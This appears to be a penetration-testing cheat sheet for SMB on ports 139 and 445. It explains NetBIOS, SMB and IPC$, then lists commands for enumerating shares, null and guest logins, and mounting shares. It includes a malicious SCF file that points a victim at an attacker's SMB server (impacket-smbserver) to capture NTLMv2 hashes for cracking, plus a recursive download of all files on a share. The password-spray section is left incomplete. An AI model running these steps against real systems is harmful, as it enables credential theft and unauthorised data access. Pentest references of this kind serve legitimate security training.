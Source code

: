 # SMB - 139/445

## SMB Information

### Port 139

Standing for Network Basic Input/Output System, NetBIOS is a networking industry standard developed by IBM, Microsoft, and Sytek. It is currently mostly used by Microsoft Windows operating systems to provide certain services to the other network hosts. NetBIOS provides services associated with the OSI model’s session layer, allowing applications on different computers to communicate over the local network. It also allows the proper transmission of data over the network. A NetBIOS name is up to 16 characters long and usually, separate from the computer name. Two applications start a NetBIOS session when one \(the client\) sends a command to “call” another client \(the server\) over **TCP Port 139**. 

Reference:

{% embed url="https://www.bitwarsoft.com/what-is-netbios.html" %}

### Port 445

While Port 139 is known technically as ‘NBT over IP’, Port 445 is ‘SMB over IP’. **SMB** stands for ‘**Server Message Blocks**’. Server Message Block in modern language is also known as **Common Internet File System \(cifs\)**. The system operates as an application-layer network protocol primarily used for offering shared access to files, printers, serial ports, and other sorts of communications between nodes on a network.

For instance, on Windows, SMB can run directly over TCP/IP without the need for NetBIOS over TCP/IP. This will use the port 445. On other systems, you’ll find services and applications using port 139. This means that SMB is running with NetBIOS over TCP/IP**.** 

### IPC$ Share

The IPC$ shares and interacts with other services via named pipes. The IPC$ share can contain the following information:

* Operating System 
* Parent Domain
* Local Users and Groups
* Available SMB shares
* Effective System Security Policies



## SMB List Shares <a id="smb-list-shares"></a>

### smbmap <a id="smbmap"></a>

List SMB shares permissions:

`smbmap -H 10.10.10.10`

### smbclient <a id="smbclient"></a>

List SMB shares with smbclient:

`smbclient -L 10.10.10.10`

### crackmapexec <a id="crackmapexec"></a>

List SMB shares with crackmapexec:

`crackmapexec smb 10.10.10.10 --shares`

### enum4linux <a id="enum4linux"></a>

List SMB shares with enum4linux:

`enum4linux 10.10.10.10`

## SMB Authentication <a id="smb-authentication"></a>

### smbmap <a id="smbmap-2"></a>

Authenticate to a domain controller SMB share with valid credentials:

`smbmap -d domain.name -u username -p password -H 10.10.10.10`

### smbclient <a id="smbclient-2"></a>

Authenticate as null:

`smbclient -U '' -L 10.10.10.10`

Authenticate as the guest user:

`smbclient -U 'guest' -L 10.10.10.10`

Authenticate as valid user \(type password on prompt\):

`smbclient -U 'username' -L 10.10.10.10`

### crackmapexec <a id="crackmapexec-2"></a>

Authenticate as null:

`crackmapexec smb 10.10.10.10 --shares -u '' -p ''`

Authenticate as a valid user with crackmapexec:

`crackmapexec smb 10.10.10.10 --shares -u username -p password`

## SMB Capture NTLMv2 with SCF <a id="smb-connect-to-share"></a>

**SCF** \(Shell Command File\) are simple files that can be used to perform a connection to the attacker machine by using the **SMB** protocol. The interesting purpose of that kind of file is that they can perform a small and limited set of operations, but can be executed when the user will browse the file, without the explicit necessity to execute it.

The attacker can take profit from this vulnerability to make a request to his own machine and then get the NTLMv2 hash of the victim.

Create a shared folder and let it open:

```text
impacket-smbserver share $(pwd) -smb2support
```

1. Create the malicious SCF file

   ```text
   [Shell]
   Command=2
   IconFile=\\10.10.10.11\share\pentestlab.ico
   [Taskbar]
   Command=ToggleDesktop
   ```

2. Copy the malicious file in the desired victim shared resource

Check the shared folder that you have created previously and if there is an interaction between the victim and the file, you will receive the NTLMv2 hash of the victim. You can then try to crack the hash with **john**

## SMB Connect to Share <a id="smb-connect-to-share"></a>

### smbmap <a id="smbmap-3"></a>

Recursively list the the share:

`smbmap -R ShareName -H 10.10.10.10`

### smbclient <a id="smbclient-3"></a>

We can connect to share with following example:

`smbclient -L //10.10.10.10/ShareName`

## SMB Mount Share <a id="smb-mount-share"></a>

Create a directory to mount the share:

`sudo mkdir -p /mnt/smb`

Mount the remote share to your machines/host without credentials:

`sudo mount -t cifs //10.10.10.10/ShareName/ /mnt/smb`

Mount with valid credentials method:

`sudo mount -t cifs -o 'user=username,password=pass' //10.10.10.10/sharename$ /mnt/share`

## SMB Password Spray <a id="smb-password-spray"></a>

sudo crackmapexec

## SMB Usage Cheatsheet <a id="smb-usage-cheatsheet"></a>

Download all files recursively without prompts:

```text
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
```


